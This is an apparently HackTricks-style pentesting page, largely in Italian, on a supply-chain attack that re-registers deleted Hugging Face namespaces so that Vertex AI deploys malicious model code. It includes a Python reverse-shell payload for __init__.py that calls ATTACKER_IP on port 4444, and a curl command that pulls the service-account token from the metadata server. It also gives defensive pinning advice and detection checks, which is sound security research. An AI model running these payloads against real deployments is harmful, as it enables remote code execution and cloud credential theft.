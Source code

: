 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenario

- Vertex AI Model Garden consente il deployment diretto di molti modelli Hugging Face (HF).
- Gli identificatori dei modelli HF sono Author/ModelName. Se un autore/org su HF viene eliminato, lo stesso nome autore può essere ri-registrato da chiunque. Gli attacker possono allora creare un repo con lo stesso ModelName al percorso legacy.
- Pipelines, SDKs, o cloud catalogs che effettuano fetch solo per nome (no pinning/integrity) scaricheranno il repo controllato dall'attacker. Quando il model viene deployato, il loader code di quel repo può eseguire all'interno del container dell'endpoint Vertex AI, ottenendo RCE con i permessi dell'endpoint.

Two common takeover cases on HF:
- Ownership deletion: il vecchio path restituisce 404 fino a quando qualcuno non ri-registrerà l'autore e pubblicherà lo stesso ModelName.
- Ownership transfer: HF emette 307 redirect dal vecchio Author/ModelName al nuovo owner. Se il vecchio autore viene successivamente cancellato e ri-registrato da un attacker, la catena di redirect viene interrotta e il repo dell'attacker risponde al percorso legacy.

## Identifying Reusable Namespaces (HF)

- Old author deleted: la pagina dell'autore restituisce 404; il model path può restituire 404 fino al takeover.
- Transferred models: il vecchio model path emette 307 verso il nuovo owner mentre il vecchio autore esiste. Se il vecchio autore viene successivamente cancellato e ri-registrato, il percorso legacy risolverà verso il repo dell'attacker.

Quick checks with curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Flusso di attacco end-to-end contro Vertex AI

1) Scoprire namespace di modelli riutilizzabili che Model Garden elenca come deployable:
- Trovare modelli HF in Vertex AI Model Garden che mostrano ancora “verified deployable”.
- Verificare su HF se l'autore originale è stato cancellato o se il modello è stato trasferito e il vecchio autore è stato poi rimosso.

2) Re-registrare l'autore cancellato su HF e ricreare lo stesso ModelName.

3) Pubblicare un repo malevolo. Includere codice che venga eseguito al load del modello. Esempi che comunemente vengono eseguiti durante il model load su HF:
- Effetti collaterali in __init__.py del repo
- Custom modeling_*.py o codice di processing referenziato da config/auto_map
- Percorsi di codice che richiedono trust_remote_code=True nelle pipeline Transformers

4) Una deployment su Vertex AI del legacy Author/ModelName ora pullerà il repo dell'attaccante. Il loader si esegue all'interno del Vertex AI endpoint container.

5) Il payload stabilisce accesso dall'ambiente dell'endpoint (RCE) con i permessi dell'endpoint.

Esempio di frammento di payload eseguito su import (solo a scopo dimostrativo):
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Note
- I loader reali variano. Molte integrazioni Vertex AI HF clonano e importano moduli dal repo referenziati nella config del modello (es., auto_map), che possono innescare l'esecuzione di codice. Alcuni usi richiedono trust_remote_code=True.
- L'endpoint tipicamente gira in un container dedicato con ambito limitato, ma è un valido punto d'appoggio iniziale per l'accesso ai dati e per movimenti laterali in GCP.

## Post-Exploitation Tips (Vertex AI Endpoint)

Once code is running inside the endpoint container, consider:
- Enumerare le variabili d'ambiente e i metadati per credenziali/token
- Accedere allo storage allegato o agli artifact del modello montati
- Interagire con le Google APIs tramite l'identità del service account (Document AI, Storage, Pub/Sub, etc.)
- Persistenza nell'artifact del modello se la piattaforma rifà il pull del repo

Enumerare i metadati dell'istanza se accessibili (dipende dal container):
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Linee guida difensive per gli utenti di Vertex AI

- Fissare i modelli per commit negli HF loaders per prevenire la sostituzione silenziosa:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Replicare i modelli HF verificati in uno store/registry di artifact interno attendibile e distribuirli da lì.
- Scansionare continuamente codebase e config per Author/ModelName hard-coded che sono stati cancellati/trasferiti; aggiornare ai nuovi namespace o fissare tramite commit.
- In Model Garden, verificare la provenienza del modello e l'esistenza dell'autore prima del deployment.

## Euristiche di riconoscimento (HTTP)

- Autore cancellato: pagina autore 404; percorso legacy del modello 404 fino al subentro.
- Modello trasferito: percorso legacy 307 verso il nuovo autore mentre il vecchio autore esiste; se il vecchio autore viene poi cancellato e ri-registrato, il percorso legacy può servire contenuti dell'attaccante.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Riferimenti incrociati

- Vedi la metodologia più ampia e le note sulla supply-chain:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Riferimenti

- [Riutilizzo del namespace del modello: un attacco alla supply-chain AI che sfrutta la fiducia nel nome del modello (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Rinominare o trasferire un repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
